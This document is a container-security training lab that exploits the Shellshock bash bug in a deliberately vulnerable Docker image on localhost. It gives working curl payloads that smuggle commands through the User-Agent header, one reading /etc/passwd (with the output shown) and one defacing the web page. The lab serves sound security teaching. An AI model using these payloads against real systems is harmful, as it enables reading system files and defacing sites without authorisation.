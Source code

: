 ## Vulnerable/Outdated Libraries - Shell-Shock (Bashdoor) 

###### Some containers that are often used and available on `dockerhub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock is one such vulnerability found in older versions of bash that haven't been updated.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)


##### Step 2:

* Run the image vulnerable to shell-shock by running `docker run -d -it -p 8080:80 vulnerables/cve-2014-6271`

    ```commandline
    root@we45:~# docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
    208ee69b40e260c5605cde5faca67e0428c7fe80a237b5cd5767f9e2e734f03d
    root@we45:~#
    ```


##### Step 3:

* Open the browser and go to `http://localhost:8080` to verify if the application is running.

![](img/shellshock-browser.png)


##### Step 4:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost:8080/cgi-bin/vulnerable` to exploit the vulnerability and access the `/etc/passwd` file on the vulnerable container.

```commandline
root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
> http://localhost:8080/cgi-bin/vulnerable

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```


##### Step 5:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable` to deface the website.

```commandline
root@we45:~/container_training/Container/Container-Attacks/Vulnerable-Libraries-ShellShock# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable
```


##### Step 6:

* Access `http://localhost:8080` on browser to confirm.

![](img/defaced.png)


##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```


